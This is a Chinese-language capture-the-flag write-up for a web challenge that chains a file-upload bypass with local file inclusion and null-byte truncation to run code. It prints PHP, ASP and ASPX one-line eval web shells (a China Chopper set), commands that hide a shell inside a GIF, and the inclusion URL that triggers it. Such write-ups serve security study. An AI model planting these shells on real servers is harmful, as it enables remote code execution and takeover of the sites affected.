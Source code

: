 
### double kill
题目描述：

```
double kill
350

"没有什么防护是一个漏洞解决不了的，如果有，那
就.....
"
```

根据题目提示的意思应该是要有两个漏洞，看站点提供了上传通道那就应该有，再看网站链接长成这样 `http://101.200.145.44/web5/index.php?page=submit`，估计就是文件包含漏洞了。

![iscc_web5](/images/iscc_web5.png)

文件上传过滤的挺死的，后台验证，只允许是 jpg 或者 png 格式的图片，那就将 一句话木马写入到图片中再上传上去好了。

一句话木马中不能含有 php 标签，只能使用这句。

```
<script language="php">@eval($_POST['pass']);</script>
```

附带中国菜刀一句话连接木马大全

```
PHP : <?php @eval($_POST['pass']);?>
ASP : <%eval request("pass")%>
ASPX:<%@ Page Language="Jscript" %><%eval(Request.Item["pass"],"unsafe");%>
```

在 linux 下可以使用 `echo -n "<script language='php'>@eval($_POST['pass']);</script>">>1.gif` 来把一句话木马加入到图片的后面，在 windows 下可以用 ` copy 1.gif /b + 1.php /a 2.gif ` 来将 gif 文件与 php 文件合并。

然后就可以将文件木马上传上去，查看图片，记下文件位置，即可 url 中使用文件包含漏洞来查看上传的木马图片，在木马图片 url 的最后需要使用 `%00` 截断符截断，访问 `http://101.200.145.44/web5/index.php?page=uploads/1464138923.gif%00` 。
